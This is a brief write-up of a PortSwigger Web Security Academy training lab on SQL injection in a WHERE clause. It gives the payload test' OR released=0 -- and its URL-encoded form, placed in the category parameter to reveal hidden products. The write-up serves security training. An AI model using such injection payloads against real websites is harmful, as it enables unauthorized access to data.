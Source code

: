 # Lab Writeup: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

URL: https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/sql-injection-apprentice/sql-injection/lab-retrieve-hidden-data#

## Description

## Solution

1. Click on one of the tags and intercept using burp, then we'll get URL like the following `https://0ab0002304db867580a3c67e0042007c.web-security-academy.net/filter?category=Food+%26+Drink`

   ![sqli-where-hidden](/assets/sqli-where-hidden.png)

2. Send the request to repeater and create the following payload `test' OR released=0 --` and URL encode it

   ![sqli-where-hidden-1](/assets/sqli-where-hidden-1.png)

3. Put the payload in the `category` parameter in the browser's URL `https://0ab0002304db867580a3c67e0042007c.web-security-academy.net/filter?category=%74%65%73%74%27%20%4f%52%20%72%65%6c%65%61%73%65%64%3d%30%20%2d%2d` and it will show all of the unreleased products then the lab should be solved.

   ![sqli-where-hidden-2](/assets/sqli-where-hidden-2.png)

